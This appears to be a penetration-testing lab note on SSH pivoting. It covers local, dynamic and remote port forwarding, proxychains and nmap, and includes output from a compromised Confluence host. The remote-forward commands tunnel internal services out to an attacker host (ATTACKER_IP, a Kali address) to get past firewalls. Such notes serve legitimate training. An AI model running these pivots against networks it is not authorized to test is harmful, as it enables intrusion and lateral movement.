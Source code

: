 
## Global note: make sure a full TTY is enabled before using `OpenSSH`.
### Local port forwarding

``` 
ssh -N -L 0.0.0.0:4455:172.16.217.217:445 database_admin@10.4.217.215           // on 192.168.217.63
// Open port 4455 on 192.168.217.63, sending the packets through 172.16.217.217 to 10.4.217.215:445.
```
`-N`: spawn no shell, give no output.



### Dynamic port forwarding
When dynamic port forwarding, all ports on the target machine are forwarded. To achieve this, a SOCKS5 proxy to a specific IP is used:

```
ssh -N -D 0.0.0.0:9999 USERNAME@HIDDEN_MACHINE           // Run from the remote machine
// change "socks5 127.0.0.1 1080" to "socks5 REMOTE_IP 9999" in /etc/proxychains.conf locally
proxychains nmap -n -sT --top-port=10 HIDDEN_MACHINE_REACHABLE_IP        // make sure to use '-n' and '-sT'
```
Note: make sure to use `proxychains` before every network command.
###### Example output
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.217.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.217.215 (10.4.217.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.217.215's password: 


┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #tail /etc/proxychains.conf 
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks5 127.0.0.1 5000
#socks5  127.0.0.1 1080
socks5  192.168.217.63 9999
// sets the target machine (running the port forwarder) and IP.

┌─[✗]─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #proxychains nmap -sT -n --top-port=10 -Pn 172.16.217.217
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-06 00:57 CEST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Host is up (10s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   closed ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   closed http
110/tcp  closed pop3
139/tcp  open   netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 105.67 seconds


```



### Remote port forwarding
When there is a firewall involved, nearly any inbound connections can be blocked. Usually, outbound connections are allowed though.
Remote port forwards work nearly the same as Local port forwards, but the SSH connection has the remote host as the "sender", while taking the attacking machine as the "reciever". This way, the traffic will be marked as outbound to the firewall.
This system works very similarly to a reverse shell, and is usually implemented when the attacker found credentials for a hidden host, but cannot connect to it because of the firewall.

```
ssh -N -R 127.0.0.1:ATTACKER_LOCAL_PORT:HIDDEN_TARGET_IP:HIDDEN_TARGET_PORT ATTACKER_USERNAME@ATTACKER_IP
```

Note: make sure the local SSH server is open and `PasswordAuthentication` is set to `yes` in `/etc/ssh/sshd_config`, and `OpenSSH` is started using `systemctl start ssh`.


```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```